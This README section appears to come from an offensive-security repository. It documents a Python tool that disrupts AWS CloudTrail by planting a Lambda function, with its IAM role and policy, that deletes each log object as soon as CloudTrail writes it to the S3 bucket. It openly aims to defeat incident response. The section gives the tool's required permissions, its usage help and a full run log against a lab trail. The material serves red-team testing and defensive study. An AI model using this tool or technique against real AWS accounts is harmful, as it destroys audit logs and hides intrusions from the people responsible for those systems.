 
## AWS-related penetration testing scripts, tools and Cheatsheets

- **`disruptCloudTrailByS3Lambda.py`** - This script attempts to disrupt CloudTrail by planting a Lambda function that will delete every object created in S3 bucket bound to a trail. As soon as CloudTrail creates a new object in S3 bucket, Lambda will kick in and delete that object. No object, no logs. No logs, no Incident Response :-)

One will need to pass AWS credentials to this tool. Also, the account affected should have at least following permissions:
- `iam:CreateRole`
- `iam:CreatePolicy`
- `iam:AttachRolePolicy`
- `lambda:CreateFunction`
- `lambda:AddPermission`
- `s3:PutBucketNotification`

These are the changes to be introduced within a specified AWS account:
- IAM role will be created, by default with name: `cloudtrail_helper_role`
- IAM policy will be created, by default with name: `cloudtrail_helper_policy`
- Lambda function will be created, by default with name: `cloudtrail_helper_function`
- Put Event notification will be configured on affected CloudTrail S3 buckets.

This tool will fail upon first execution with the following exception:

```
[-] Could not create a Lambda function: An error occurred (InvalidParameterValueException) when calling the CreateFunction operation: The role defined for the function cannot be assumed by Lambda.
```

At the moment I did not find an explanation for that, but running the tool again with the same set of parameters - get the job done.

```
bash $ python3 disruptCloudTrailByS3Lambda.py --help

        :: AWS CloudTrail disruption via S3 Put notification to Lambda
        Disrupts AWS CloudTrail logging by planting Lambda that deletes S3 objects upon their creation
        Mariusz B. / mgeeky '19, <mb@binary-offensive.com>

usage: disruptCloudTrailByS3Lambda.py [options] <region> [trail_name]

required arguments:
  region                AWS region to use.
  --access-key ACCESS_KEY
                        AWS Access Key ID
  --secret-key SECRET_KEY
                        AWS Access Key ID
  --token TOKEN         AWS temporary session token

optional arguments:
  trail_name            CloudTrail name that you want to disrupt. If not
                        specified, will disrupt every actively logging trail.
  --disrupt             By default, this tool will install Lambda that is only
                        logging that it could remove S3 objects. By using this
                        switch, there is going to be Lambda introduced that
                        actually deletes objects.
  --role-name ROLE_NAME
                        name for AWS Lambda role
  --policy-name POLICY_NAME
                        name for a policy for that Lambda role
  --function-name FUNCTION_NAME
                        name for AWS Lambda function


bash $ python3 disruptCloudTrailByS3Lambda.py --access-key ASIAXXXXXXXXXXXXXXXX --secret-key Gaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa --token FQoGZX[...] us-west-2

        :: AWS CloudTrail disruption via S3 Put notification to Lambda
        Disrupts AWS CloudTrail logging by planting Lambda that deletes S3 objects upon their creation
        Mariusz B. / mgeeky '19, <mb@binary-offensive.com>

[.] Will be working on Account ID: 712800000000
[.] Step 1: Determine trail to disrupt
[+] Trail cloudgoat_trail is actively logging (multi region? No).
[.] Trails intended to be disrupted:
	- cloudgoat_trail

[.] Step 2: Create a role to be assumed by planted Lambda
[-] Role with name: cloudtrail_helper_role already exists.
[.] Step 3: Create a policy for that role
[-] Policy with name: cloudtrail_helper_policy already exists.
[.] Step 4: Attach policy to the role
[.] Attaching policy (arn:aws:iam::712800000000:policy/cloudtrail_helper_policy) to the role cloudtrail_helper_role
[-] Policy is already attached.
[.] Step 5: Create Lambda function
[.] 	Using non-disruptive lambda.
[.] Creating a lambda function named: cloudtrail_helper_function on Role: arn:aws:iam::712800000000:role/cloudtrail_helper_role
[+] Function created.
[.] Step 6: Permit function to be invoked on all trails
[.] Adding invoke permission to func: cloudtrail_helper_function on S3 bucket: arn:aws:s3:::90112981864022885796153088027941100000000000000000000000
[.] Step 7: Configure trail bucket's put notification
[.] Putting a bucket notification configuration to 90112981864022885796153088027941100000000000000000000000, ARN: arn:aws:lambda:us-west-2:712800000000:function:cloudtrail_helper_function
[+] Installed CloudTrail's S3 bucket disruption Lambda.
```

Afterwards, one should see following logs in CloudWatch traces for planted Lambda function - if no `--disrupt` option was specified:

```
[*] Following S3 object could be removed: (Bucket=90112981864022885796153088027941100000000000000000000000, Key=cloudtrail/AWSLogs/712800000000/CloudTrail/us-west-2/2019/03/20/712800000000_CloudTrail_us-west-2_20190320T1000Z_oxxxxxxxxxxxxc.json.gz)
```
